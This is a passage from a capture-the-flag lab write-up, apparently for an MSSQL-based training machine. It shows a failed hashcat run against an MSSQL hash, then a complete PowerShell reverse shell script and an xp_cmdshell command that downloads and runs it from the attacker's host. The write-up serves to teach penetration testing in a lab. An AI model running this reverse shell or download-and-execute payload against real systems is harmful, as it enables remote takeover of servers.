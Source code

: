 
Perfect!

At that time, `hashcat` finished working:

```txt
Session..........: archtype                      
Status...........: Exhausted
Hash.Name........: MSSQL (2012, 2014)
Hash.Target......: 0x0200100bac9600580c3c299ed7ff81d77bcbe50b830ca6030...a3ce63
Time.Started.....: Wed Jun 16 19:24:08 2021 (9 secs)
Time.Estimated...: Wed Jun 16 19:24:17 2021 (0 secs)
Guess.Base.......: File (/usr/wl/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1523.5 kH/s (1.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 6538/14344385 (0.05%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[213134356173382a] -> $HEX[042a0337c2a156616d6f732103]
Started: Wed Jun 16 19:23:58 2021
Stopped: Wed Jun 16 19:24:18 2021
```

And as I was expecting from the time of it took - this is not what we had to do.

[Back to top](#contents) ⤴

# Exploitation (user shell)

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring on the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.

With that in the hands, we could try to get the reverse shell.

```ps1
# cmd.ps1

$TCPClient = New-Object Net.Sockets.TCPClient('10.10.XX.XXX', 4445);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()
```

```sql
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString(''http://10.10.XX.XXX/cmd.ps1'') | powershell'
```

![4342537102777.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932975802/VmpXy7dtK.png align="left")
